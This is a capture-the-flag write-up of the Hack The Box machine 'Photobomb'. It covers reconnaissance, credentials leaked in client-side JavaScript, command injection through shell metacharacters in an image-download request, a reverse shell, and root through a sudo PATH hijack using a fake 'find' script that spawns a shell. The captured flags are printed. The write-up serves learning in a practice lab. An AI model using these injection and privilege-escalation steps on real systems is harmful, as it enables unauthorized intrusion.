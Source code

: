 <h1 style="margin-bottom:20px; text-align:center;">Photobomb</h1>

<div align="center">
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/8775d37c-91c2-43fb-bddd-36da3cca479d"></img>
</div>

Welecome back, today  we will see an hackthebox machine called Photobomb
Let’s start out with a usual nmap scan.

```diff
# Nmap 7.92 scan initiated Fri Oct 21 09:54:09 2022 as: nmap -sC -sV -oN phtbomb_nmap.txt 10.10.11.182
Nmap scan report for 10.10.11.182
Host is up (0.037s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 21 09:54:18 2022 -- 1 IP address (1 host up) scanned in 9.20 seconds
```

As always there’s the web page that we can visit.

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/ebbfb934-a583-431c-8a03-7a1f2801fdff"></img>

Nothing cool here unless a link which needs credentials to login.

By the way we can try to use gobuster

```cpp
┌──(kali㉿kali)-[~/diego/Hack_the_box/Machines/Photobomb]
└─$ gobuster dir --wordlist=/usr/share/wordlists/dirb/big.txt -u http://photobomb.htb/ 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://photobomb.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/10/21 09:56:38 Starting gobuster in directory enumeration mode
===============================================================
/[                    (Status: 400) [Size: 273]
/]                    (Status: 400) [Size: 273]
/favicon.ico          (Status: 200) [Size: 10990]
/plain]               (Status: 400) [Size: 278]  
/printer              (Status: 401) [Size: 188]  
/printer-friendly     (Status: 401) [Size: 188]  
/printer_friendly     (Status: 401) [Size: 188]  
/printerfriendly      (Status: 401) [Size: 188]  
/printers             (Status: 401) [Size: 188]  
/quote]               (Status: 400) [Size: 278]  
                                                 
===============================================================
2022/10/21 09:58:27 Finished
==============================================================
```

There are a few folders which are useless because they need  a password to visit them, but if we look at the source code we can spot an unusual link

```jsx
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

By following the given path it set for us the credentials that will be necessary to login into the printer page.

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/6869064b-a1aa-4ab9-8f20-28b108ef1487"></img>

At the moment we can’t find anything, but if throw an error by trying to find something that doesn’t exist into the url we get this message

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/1bffd86a-4dec-4576-b8bb-edcf76f7b7b7"></img>

This is the error message for the Sinatra Web-Framework which is vulnerable to directory trasversal, as we an see from this post [snyk](https://security.snyk.io/vuln/SNYK-RUBY-SINATRA-22017)

Even if we follow the idea of the Exploit it won't work but we still have the image downloader. So let’s take the request with burpsuite and try to inject some args

With the first we can’t do anything while with the second we are able to add others extensions to the file and get strange results

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/29d23de5-6e1d-4606-97aa-546cccce57ff"></img>

And here is the result

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/bcaddcdb-d85a-441b-89b1-2ef4cdddba9f"></img>

As you can see we are able to specify the output of how the image which gets printed 

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/054c0f62-f92d-4680-a6aa-9c84b5268a88"></img>

Now while fuzzing we find that there are two useful characters which are the `;` and the `|` that are the character to run more commands in a shell.

Here is an example.

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/b83f82f4-5200-4770-b73c-22a0d91cc8ab"></img>

So now we have to manage a way to get a reverse shell.

Because we are able to run bash commands we can make it tale our php rev-shell from us

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/b24d037a-3197-48d3-811a-7331731fdcf4"></img>

Now the only problem is that we have to find where our shell is. By injecting as command `python3 -m http.server` we can see that we are here

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/c7dd0f9d-64bd-4399-9866-c9d222686a10"></img>

So as you can see we have found the rev-shell but if we simply call it trough the URL we are no able to run it, this probably means that php is not installed, so thi was definetly a rabbit hole.

By the way before i forgot to try running a rev-shell with python, which turned out to be the solution.

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/1824ea49-21cd-4a49-800e-c0b3e99461c52"></img>

And here's why we couldn’t execute our rev-shell

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/d5b1ae4f-8d80-41d2-a3c1-484c1f3b4f3d"></img>

The php command was not installed.

By the way, we got the shell and now we can grab the user flag.

```python
wizard@photobomb:~$ cat user.txt
589b2daea8041e50dfd59a92c86783e7
wizard@photobomb:~$
```

# Root.txt

Here we are at the funniest part where we have to become root.
As always the first thing i do is checking for some privileges with `sudo -l`

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/43ab949a-444d-45c2-87b5-71a301f26621"></img>

Here is an interesting one because we can run a file called `/opt/cleanup.sh` as root

```bash
wizard@photobomb:/opt$ cat cleanup.sh 
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

If we look closely we can spot a command which gets runned without specifying its full PATH or `find`, so we just need to create an executable called `find` into the tmp folder that call a bash, adn then change the PATH with tmp as first folder.

Like this when the code will be ran as root it will execute not the real find but our find which is a shell spawner.

```bash
wizard@photobomb:/tmp$ cat find
#!/usr/bin/python3
import os
import sys 

try:
    os.system("/bin/sh")
except:
    os.exit()
```

Know we have to change the PATH

```bash
wizard@photobomb:/tmp$ export PATH=/tmp:$PATH
```

Like this when we run `find` we get a shell

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/190f966f-eb82-4011-ad38-aa676fe25722"></img>

Now we need to run it trough the file as sudo

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/30240213-f9cc-41c7-b72e-10e609c8b455"></img>

Mhhmm... It doesn't work, because it even export the curren PATH, but the sudo says that we can not only run as root the program but even set the env variables run-time, so just pipe all togheter

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/794ebfd2-0953-43d9-b75e-f6fe5fb19613"></img>

And.... It worked so now we can fetch the root flag!

```bash
root@photobomb:~# cat root.txt 
60a8c867e31611a23dc277dcec2de33c
root@photobomb:~#
```

We did it!
<div align="center">
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/3ce0a554-60dc-4475-8498-c9985b800e7f"></img>
</div>

Thanks for the attention 0xCY@

